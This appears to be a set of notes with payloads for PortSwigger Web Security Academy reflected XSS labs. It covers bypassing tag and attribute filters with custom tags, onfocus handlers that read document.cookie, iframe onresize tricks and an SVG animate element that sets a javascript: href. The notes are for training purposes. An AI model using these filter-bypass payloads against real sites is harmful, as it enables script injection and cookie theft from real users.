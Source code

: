 # XSS Labs

# <iframe src="https://your-lab-id.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'> 


## 3) Reflected XSS into HTML context with all tags blocked except custom ones
* Payload
```html
<script>location = 'https://ac081f4d1fda91bec1dd414e00810097.web-security-academy.net/?search=%3Cbigb0ss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';</script> 
```

## 4) Reflected XSS with event handlers and href attributes blocked

* Allowed tags
```
[INFO] Allowed tag: a
[INFO] Allowed tag: text
[INFO] Allowed tag: animate
[INFO] Allowed tag: image
[INFO] Allowed tag: svg
[INFO] Allowed tag: title
```

* Allowed "svg" tags
```
[INFO] Allowed tag: a
[INFO] Allowed tag: animate
[INFO] Allowed tag: image
[INFO] Allowed tag: svg
[INFO] Allowed tag: title
```

* Payload
```html
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click Me</text></a>
```